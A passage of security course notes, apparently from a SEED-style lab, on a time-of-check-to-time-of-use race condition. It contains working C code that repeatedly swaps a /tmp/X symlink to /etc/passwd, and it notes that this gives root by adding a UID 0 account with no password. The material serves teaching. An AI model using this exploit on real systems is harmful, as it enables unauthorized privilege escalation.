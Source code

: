    ![race-condition-processes](images/race-condition-processes.png)
      * Run vulnerable program in a loop
      * Run the attack program
   * Attack program runs:
      * A1: Make `/tmp/X` point to a file owned by us
      * A2: Make `/tmp/X` point to `/etc/passwd`
   * Vulnerable program runs:
      * V1: Check user's permission on `/tmp/X`
      * V2: Open the file
   * As the programs are running simultaneously on a multi-core machine, the instructions will be interleaved
      * Need the order A1, V1, A2, V2
```c
#include <unistd.h>

int main() {
    while(1) {
        unlink("/tmp/X");
        // Create a symlink to a file owned by us in order to allow access() to pass
        symlink("/home/seed/myfile", "/tmp/X");
        // Sleep to allow the vulnerable process to run
        usleep(10000);
        
        // Unlink the symlink
        unlink("/tmp/X");
        // Create a symlink to the file we want to open
        symlink("/etc/passwd", "/tmp/X");
        usleep(10000);
    }
}
```
* If the attacker writes to the file a user with UID 0 and an empty password, can gain access to a root shell
